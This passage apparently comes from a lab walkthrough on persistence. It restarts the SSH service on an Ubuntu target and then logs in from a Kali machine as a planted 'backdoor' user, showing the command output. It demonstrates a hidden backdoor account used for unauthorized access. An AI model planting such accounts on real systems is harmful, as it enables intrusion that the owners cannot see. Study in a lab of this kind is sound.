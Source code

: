 Looks like its enabled. Let's restart the ssh server (and make sure it restarted).

```
sudo systemctl restart ssh
sudo systemctl status ssh
? ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-02-26 04:15:27 CST; 4s ago
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 1857 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 1858 (sshd)
      Tasks: 1 (limit: 2234)
     Memory: 1.7M
        CPU: 16ms
     CGroup: /system.slice/ssh.service
             ??1858 "sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups"

Feb 26 04:15:27 ubuntu systemd[1]: Starting OpenBSD Secure Shell server...
Feb 26 04:15:27 ubuntu sshd[1858]: Server listening on 0.0.0.0 port 22.
Feb 26 04:15:27 ubuntu sshd[1858]: Server listening on :: port 22.
Feb 26 04:15:27 ubuntu systemd[1]: Started OpenBSD Secure Shell server.
```

Now we test our backdoor from the Kali machine:

```
???(kali?kali)-[~]
??$ ssh backdoor@target
The authenticity of host 'target (192.168.53.24)' can't be established.
ED25519 key fingerprint is SHA256:EcFUQ3abooLm3ZmBChJ1yx8VqJ5nj/Htk22+PfBdxUo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'target' (ED25519) to the list of known hosts.
backdoor@target's password: 
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Feb 25 08:16:35 PM UTC 2024

  System load:  0.080078125       Processes:               220
  Usage of /:   62.9% of 9.75GB   Users logged in:         0
  Memory usage: 30%               IPv4 address for ens160: 192.168.53.24
  Swap usage:   0%


91 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$ whoami
```
